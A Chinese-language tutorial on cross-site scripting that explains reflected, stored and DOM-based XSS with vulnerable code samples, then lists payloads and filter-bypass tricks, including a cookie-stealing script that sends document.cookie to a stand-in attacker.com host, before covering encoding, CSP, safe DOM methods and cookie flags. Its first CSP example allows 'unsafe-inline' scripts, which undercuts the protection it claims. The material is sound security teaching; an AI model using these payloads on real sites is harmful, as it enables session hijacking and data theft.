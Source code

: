 人们经常将跨站脚本攻击（Cross Site Scripting）缩写为CSS，但这会与层叠样式表（Cascading Style Sheets，CSS）的缩写混淆。因此，有人将跨站脚本攻击缩写为XSS

跨站脚本攻击（XSS）是最常见的Web安全漏洞之一，攻击者通过在网页中注入恶意脚本来窃取用户信息或执行恶意操作。我来详细介绍XSS的原理、类型和防护措施。

## XSS攻击原理

XSS攻击的核心是在用户浏览器中执行攻击者构造的恶意JavaScript代码。当应用程序未对用户输入进行适当过滤就直接输出到页面时，就可能发生XSS攻击。

## XSS攻击类型

**反射型XSS（Reflected XSS）**

恶意脚本通过URL参数传递并直接反射到页面中：

```html
<!-- 存在漏洞的PHP代码 -->
<?php
echo "搜索结果：" . $_GET['query'];
?>

<!-- 攻击URL -->
http://example.com/search.php?query=<script>alert('XSS')</script>
```

**存储型XSS（Stored XSS）**

恶意脚本被存储在服务器上（如数据库），每次访问时都会执行：

```html
<!-- 留言板存在漏洞的代码 -->
<div class="comment">
    用户留言：<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
</div>
```

**DOM型XSS（DOM-based XSS）**

通过修改页面DOM结构来执行恶意脚本：

```javascript
// 存在漏洞的JavaScript代码
var userInput = location.hash.substring(1);
document.getElementById('content').innerHTML = userInput;

// 攻击URL
http://example.com/page.html#<img src=x onerror=alert('XSS')>
```

## 常见XSS攻击载荷

**基础脚本注入**：
```html
<script>alert('XSS')</script>
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

**事件处理器注入**：
```html
<img src=x onerror=alert('XSS')>
<input type="text" onmouseover="alert('XSS')" value="移动鼠标到这里">
<body onload=alert('XSS')>
```

**伪协议注入**：
```html
<a href="javascript:alert('XSS')">点击链接</a>
<iframe src="javascript:alert('XSS')"></iframe>
```

**绕过过滤的技巧**：
```html
<ScRiPt>alert('XSS')</ScRiPt>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<img src="" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">
```

## XSS防护措施

**输入验证和过滤**

```php
// PHP示例：输入过滤
function sanitizeInput($input) {
    // 移除HTML标签
    $input = strip_tags($input);
    // HTML实体编码
    $input = htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
    return $input;
}

$userInput = sanitizeInput($_POST['comment']);
```

```javascript
// JavaScript示例：输入验证
function sanitizeInput(input) {
    const div = document.createElement('div');
    div.textContent = input;
    return div.innerHTML;
}
```

**输出编码**

```php
// PHP输出编码
echo htmlspecialchars($userContent, ENT_QUOTES, 'UTF-8');

// 对于不同上下文的编码
function htmlEncode($str) {
    return htmlspecialchars($str, ENT_QUOTES | ENT_HTML5, 'UTF-8');
}

function jsEncode($str) {
    return json_encode($str, JSON_HEX_TAG | JSON_HEX_AMP | JSON_HEX_APOS | JSON_HEX_QUOT);
}
```

**Content Security Policy (CSP)**

```html
<!-- 在HTML头部设置CSP -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';">
```

```php
// 通过HTTP头设置CSP
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

**使用安全的DOM操作**

```javascript
// 危险的做法
element.innerHTML = userInput;

// 安全的做法
element.textContent = userInput;
// 或者
element.innerText = userInput;

// 创建元素时使用安全方法
const textNode = document.createTextNode(userInput);
element.appendChild(textNode);
```

**Cookie安全设置**

```php
// 设置HttpOnly和Secure标志
setcookie('session_id', $sessionId, [
    'expires' => time() + 3600,
    'path' => '/',
    'domain' => '.example.com',
    'secure' => true,      // 仅HTTPS传输
    'httponly' => true,    // 防止JavaScript访问
    'samesite' => 'Strict' // 防止CSRF攻击
]);
```

## 框架级别的防护

**React防护**

```jsx
// React默认会转义内容
function UserComment({ comment }) {
    return <div>{comment}</div>; // 自动转义

    // 危险的做法（需要明确使用）
    return <div dangerouslySetInnerHTML={{__html: comment}} />;
}
```

**Vue.js防护**

```vue
<template>
  <!-- 自动转义 -->
  <div>{{ userInput }}</div>
  
  <!-- 危险的做法 -->
  <div v-html="userInput"></div>
</template>
```

## 检测和测试XSS漏洞

**手工测试载荷**：
```html
<script>alert('XSS')</script>
'"><script>alert('XSS')</script>
javascript:alert('XSS')
<img src=x onerror=alert('XSS')>
```

**自动化工具**：
- OWASP ZAP
- Burp Suite
- XSStrike
- dalfox

**代码审计要点**：
检查所有用户输入点，包括URL参数、表单数据、HTTP头、Cookie等，确保在输出前进行适当的编码和过滤。

## 最佳实践总结

采用纵深防御策略，结合输入验证、输出编码、CSP策略和安全的编程实践，可以有效防护XSS攻击。重要的是要在开发过程中始终保持安全意识，对所有用户输入保持怀疑态度，并定期进行安全测试和代码审计。

### 参考

* [根据白名单过滤 HTML(防止 XSS 攻击)](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)
